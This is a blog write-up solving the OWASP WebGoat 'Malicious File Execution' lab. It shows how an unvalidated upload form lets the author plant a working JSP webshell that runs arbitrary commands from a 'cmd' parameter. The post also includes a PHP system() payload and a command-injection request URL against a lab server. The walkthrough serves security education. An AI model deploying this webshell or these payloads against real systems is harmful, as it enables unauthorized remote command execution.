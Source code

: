 ```yaml
---
layout: post
title:  "OWASP BWA WebGoat Challenge: Malicious Execution"
subtitle: "Malicious File Execution"
date:   2017-01-31 08:00:00 -0500
author: "coastal"
header-img: "images/site-resources/webgoat-header.jpg"
---
```

# Malicious File Execution
Instructions:

- The form below allows you to upload an image which will be displayed on this page. Features like this are often found on web based discussion boards and social networking sites. This feature is vulnerable to Malicious File Execution.
- In order to pass this lesson, upload and run a malicious file. In order to prove that your file can execute, it should create another file named ```/var/lib/tomcat6/webapps/WebGoat/mfe_target/user.txt```
- Once you have created this file, you will pass the lesson.

The challenge greets us with an upload page for us to upload an image with. Let's upload a test image and see what happens:

<img src="{{ site.baseurl }}/images/2017-01-31-webgoat_part_17/test-upload.jpg">

Alright. It displays it back to us. How about when we send a file that isn't an image? Like this text file:

```
$cat test.txt
text
```

<img src="{{ site.baseurl }}/images/2017-01-31-webgoat_part_17/test-text-upload.jpg">

It looks like there is no input validation server side to make sure that we actually uploaded an image. This means that we can likely throw some malicious code up in a file that will be executed by the server. I tried a couple of naive methods that didn't work like a shell script:

```
$cat shell.sh
#!/bin/bash

mkdir -p /var/lib/tomcat6/webapps/WebGoat/mfe_target
echo 'executed' > touch /var/lib/tomcat6/webapps/WebGoat/mfe_target/user.txt
```

And a php shell:

{% highlight php %}
<?php
system("mkdir -p /var/lib/tomcat6/webapps/WebGoat/mfe_target;touch /var/lib/tomcat6/webapps/WebGoat/mfe_target/user.txt;echo 'executed' > /var/lib/tomcat6/webapps/WebGoat/mfe_target/user.txt")
?>
{% endhighlight %}

All of these were stored at the following location:

```
<p>Your current image:<img src="uploads/php_shell.php" vspace="0" hspace="0" border="0"></p>
```

But every time I traveled to them in a web browser, it just tried to download the file. Finally, I tried a ```.jsp``` file (Java Server Pages). Seeing as everything so far on the server was running Java, it made sense that Java might execute on upload. So I grabbed this shell payload from [NetSpi][jsp-shells]:

```
<%@ page import="java.util.*,java.io.*"%>
 <% 
 if (request.getParameter("cmd") != null) { 
 	out.println("Command: " + request.getParameter("cmd") + "<br />"); 
 	Process p = Runtime.getRuntime().exec(request.getParameter("cmd")); 
 	OutputStream os = p.getOutputStream(); 
 	InputStream in = p.getInputStream(); 
 	DataInputStream dis = new DataInputStream(in); 
 	String disr = dis.readLine(); 
 	
 	while ( disr != null ) { 
 		out.println(disr); 
 		disr = dis.readLine();
 	}
 } 
 %>
```

Now when I navigated to the ```uploaded/cmd.jsp``` page, I wasn't displayed a download prompt!

<img src="{{ site.baseurl }}/images/2017-01-31-webgoat_part_17/successful-jsp-upload.jpg">

Nice so we have a webshell embedded in the server. Let's see what happens when we specify shell commands via the ```cmd``` GET request parameter:

<img src="{{ site.baseurl }}/images/2017-01-31-webgoat_part_17/jsp-command-exec.jpg">

Alright! Now let's append our shell commands to accomplish our goal of inserting a file ```user.txt``` in the directory ```/var/lib/tomcat6/webapps/WebGoat/mfe_target/``` to the controllable ```cmd``` request parameter:

```
http://192.168.56.101/WebGoat/uploads/cmd.jsp?cmd=mkdir%20-p%20/var/lib/tomcat6/webapps/WebGoat/mfe_target;touch%20/var/lib/tomcat6/webapps/WebGoat/mfe_target/user.txt;echo%20%27executed%27%20%3E%20/var/lib/tomcat6/webapps/WebGoat/mfe_target/user.txt
```

And when we send the request:

<img src="{{ site.baseurl }}/images/2017-01-31-webgoat_part_17/jsp-file-insert.jpg">

<img src="{{ site.baseurl }}/images/2017-01-31-webgoat_part_17/malicious-file-exec-completed.jpg">

We hacked the server with our malicious JSP webshell!

### References

[1. Hacking with JSP Shells][jsp-shells]

[2. Unrestricted File Upload][owasp-ufu]

[jsp-shells]:https://blog.netspi.com/hacking-with-jsp-shells/
[owasp-ufu]:https://www.owasp.org/index.php/Unrestricted_File_Upload